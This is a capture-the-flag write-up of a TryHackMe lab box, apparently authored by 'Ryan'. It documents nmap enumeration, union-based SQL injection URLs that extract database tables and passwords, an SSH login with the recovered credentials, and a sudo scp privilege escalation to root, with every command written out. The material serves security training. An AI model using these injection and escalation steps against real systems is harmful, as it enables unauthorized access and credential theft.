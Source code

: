 # THM - UnderPass

#### Ip: 10.10.74.251
#### Name: Jurassic Park
#### Rating: Hard

----------------------------------------------------------------------

![thm_jpark_pic.jpeg](../assets/jurassic_park_assets/thm_jpark_pic.jpeg)

```
This medium-hard task will require you to enumerate the web application, get credentials to the server and find four flags hidden around the file system. Oh, Dennis Nedry has helped us to secure the app too.
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Jurassic_Park]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.74.251 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-31 11:22 CST
Nmap scan report for 10.10.74.251
Host is up (0.35s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 45933d22b9d6fa11d18c3a017f67a1ab (RSA)
|   256 07ed484bd9643b2602d4ac7cae9aab7f (ECDSA)
|_  256 6995e9e0d3454624ac6973722290fe3e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Jarassic Park
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.78 seconds
```

Looking at the page on port 80 we find a simple site:

![thm_jpark_site.png](../assets/jurassic_park_assets/thm_jpark_site.png)

Following the online shop link we are redirected to http://10.10.74.251/shop.php

Clicking on purchase package we are redirected to http://10.10.74.251/item.php?id=2

Trying something like `id=2'` we trigger  this warning:

![thm_jpark_nope.png](../assets/jurassic_park_assets/thm_jpark_nope.png)

Which at the very bottom humorously has:

```
Try SqlMap.. I dare you..
```

We can confirm the page is vulnerable to SQL injection with: `http://10.10.74.251/item.php?id=1%20or%20sleep(10)`

Continuing to enumerate and also test for IDOR, we find a 'development package' as id=5:

![thm_jpark_5.png](../assets/jurassic_park_assets/thm_jpark_5.png)

Cool. So it looks like there is some character blacklisting going on here.

### Exploitation

Beginning to try to exploit this we can see there are 5 columns:

```
http://10.10.165.197/item.php?id=1%20union%20select%201,2,3,4,5
```

Because we know that the `@` sign is blocked, we can get the Mysql version using `select version()`: 

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,version(),3,4,5
```

![thm_jpark_version.png](../assets/jurassic_park_assets/thm_jpark_version.png)

We can also begin enumerating the DB with `database()`:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,database(),3,4,5
```

![thm_jpark_db.png](../assets/jurassic_park_assets/thm_jpark_db.png)

Viewing the tables:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,TABLE_NAME,TABLE_SCHEMA,4,5%20from%20INFORMATION_SCHEMA.TABLES%20where%20table_schema=%22park%22
```

![thm_jpark_tables.png](../assets/jurassic_park_assets/thm_jpark_tables.png)

Columns:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,group_concat(COLUMN_NAME),TABLE_NAME,4,5%20from%20INFORMATION_SCHEMA.COLUMNS%20where%20table_name=%22users%22
```

![thm_jpark_columns.png](../assets/jurassic_park_assets/thm_jpark_columns.png)

Note, we need to use the `group_concat` here

Cool, so now we see the columns username and password.

The string `username` is being blacklisted, but we know we are looking for the password for user Dennis, so let's take a look at the password column:

```
http://10.10.165.197/item.php?id=1%20UNION%20select%201,%20group_concat(password),%203,%204,5%20from%20park.users
``` 
![thm_jpark_pass.png](../assets/jurassic_park_assets/thm_jpark_pass.png)

We now have the passwords D0nt3ATM3 and ih8dinos

We can login to SSH with `dennis:ih8dinos`

```
┌──(ryan㉿kali)-[~/THM/Jurassic_Park]
└─$ ssh dennis@10.10.165.197 
```

And grab the flag1.txt flag:

![thm_jpark_flag1.png](../assets/jurassic_park_assets/thm_jpark_flag1.png)

### Privilege Escalation

Seeing what user dennis can run with elevated permissions we see he can run `scp` as root:

```
dennis@ip-10-10-165-197:/var/www/html$ sudo -l
Matching Defaults entries for dennis on ip-10-10-165-197.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-165-197.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
dennis@ip-10-10-165-197:/var/www/html$ cd /tmp
```

We can head to https://gtfobins.github.io/gtfobins/scp/#sudo for the commands we'll need to exploit this
```
dennis@ip-10-10-165-197:/tmp$ TF=$(mktemp)
dennis@ip-10-10-165-197:/tmp$ echo 'sh 0<&2 1>&2' > $TF
dennis@ip-10-10-165-197:/tmp$ chmod +x "$TF"
dennis@ip-10-10-165-197:/tmp$ sudo /usr/bin/scp -S $TF x y:
# whoami
root
# hostname
ip-10-10-165-197
```

We can then grab flag5:

![thm_jpark_flag5.png](../assets/jurassic_park_assets/thm_jpark_flag5.png)

Going back to find the other flags we find flag2's location in `.viminfo`:

```
# File marks:
'0  1  37  ~/.bash_history
'1  2  18  ~/test.sh
'2  2  18  /home/ubuntu/test.sh
'3  1802  31  /tmp/flagFour.txt
'4  1  63  ~/flag1.txt
'5  1  31  /boot/grub/fonts/flagTwo.txt
'6  1  0  /var/www/html/index.php
```

![thm_jpark_flag2.png](../assets/jurassic_park_assets/thm_jpark_flag2.png)

And we can also find flag3 in `.bash_history`

![thm_jpark_flag3.png](../assets/jurassic_park_assets/thm_jpark_flag3.png)

Thanks for following along!

-Ryan

-----------------------------------
